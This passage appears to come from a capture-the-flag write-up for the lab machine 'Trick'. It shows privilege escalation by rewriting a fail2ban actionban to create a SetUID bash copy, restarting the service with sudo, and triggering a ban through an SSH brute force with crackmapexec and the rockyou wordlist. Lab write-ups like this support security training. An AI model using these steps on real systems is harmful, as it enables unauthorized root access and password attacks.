 ### Abusing fail2ban

At this point, I have all I need to get execution as root. I’ll start by changing the `actionban` in `/etc/fail2ban/action.d/iptables-multipath.conf` to make a copy of `bash` and set it SetUID:

```

# Option:  actionban
# Notes.:  command executed when banning an IP. Take care that the
#          command is executed with Fail2Ban user rights.
# Tags:    See jail.conf(5) man page
# Values:  CMD
#
actionban = cp /bin/bash /tmp/0xdf; chmod 4777 /tmp/0xdf

```

Now I’ll restart `fail2ban`:

```

michael@trick:/etc/fail2ban$ sudo /etc/init.d/fail2ban restart
[ ok ] Restarting fail2ban (via systemctl): fail2ban.service.

```

Finally, I need to trigger the ban:

```

oxdf@hacky$ crackmapexec ssh trick.htb -u oxdf -p /usr/share/wordlists/rockyou.txt 
SSH         trick.htb       22     trick.htb        [*] SSH-2.0-OpenSSH_7.9p1 Debian-10+deb10u2
SSH         trick.htb       22     trick.htb        [-] oxdf:123456 Authentication failed.
SSH         trick.htb       22     trick.htb        [-] oxdf:12345 Authentication failed.
SSH         trick.htb       22     trick.htb        [-] oxdf:123456789 Authentication failed.
SSH         trick.htb       22     trick.htb        [-] oxdf:password Authentication failed.
SSH         trick.htb       22     trick.htb        [-] oxdf:iloveyou Authentication failed.
SSH         trick.htb       22     trick.htb        [-] oxdf:princess Authentication failed.                         
SSH         trick.htb       22     trick.htb        [-] oxdf:1234567 Authentication failed.
SSH         trick.htb       22     trick.htb        [-] oxdf:rockyou Authentication failed.
SSH         trick.htb       22     trick.htb        [-] oxdf:12345678 Authentication failed.
SSH         trick.htb       22     trick.htb        [-] oxdf:abc123 Authentication failed.
SSH         trick.htb       22     trick.htb        [-] oxdf:nicole Authentication failed.
SSH         trick.htb       22     trick.htb        [-] oxdf:daniel Authentication failed.
SSH         trick.htb       22     trick.htb        [-] oxdf:babygirl Authentication failed.
SSH         trick.htb       22     trick.htb        [-] oxdf:monkey Authentication failed.
SSH         trick.htb       22     trick.htb        [-] oxdf:lovely Authentication failed.
SSH         trick.htb       22     trick.htb        [-] oxdf:jessica Authentication failed.
SSH         trick.htb       22     trick.htb        [-] oxdf:654321 Authentication failed.
SSH         trick.htb       22     trick.htb        [-] oxdf:michael Authentication failed.
SSH         trick.htb       22     trick.htb        [-] oxdf:ashley Authentication failed.
SSH         trick.htb       22     trick.htb        [-] oxdf:qwerty Authentication failed.  
...[snip]...

```
